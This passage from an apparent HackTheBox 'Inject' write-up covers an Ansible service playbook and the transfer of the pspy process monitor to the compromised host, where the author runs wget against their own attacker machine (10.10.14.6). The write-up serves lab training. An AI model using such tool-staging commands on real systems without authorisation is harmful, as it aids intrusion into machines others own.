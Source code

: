![](/img/image-20230313213946016.png)

[Ansible](https://www.ansible.com/) is an open-source automation tool
that simplifies the process of managing and configuring IT
infrastructure. As ChatGPT identified, this one makes sure that the
webapp service is running through systemd.

#### Processes

I'll use [pspy](https://github.com/DominicBreuker/pspy) to check for
running processes on the host. I'll download the latest release from
their [release
page](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) (1.2.1
at the time of solving), host it with a Python webserver, and fetch it
to Inject with `wget`:



    phil@inject:/tmp$ wget 10.10.14.6/pspy64
    --2023-03-14 01:43:58--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64              100%[===================>]   2.96M  4.14MB/s    in 0.7s

    2023-03-14 01:43:59 (4.14 MB/s) - ‘pspy64’ saved [3104768/3104768]
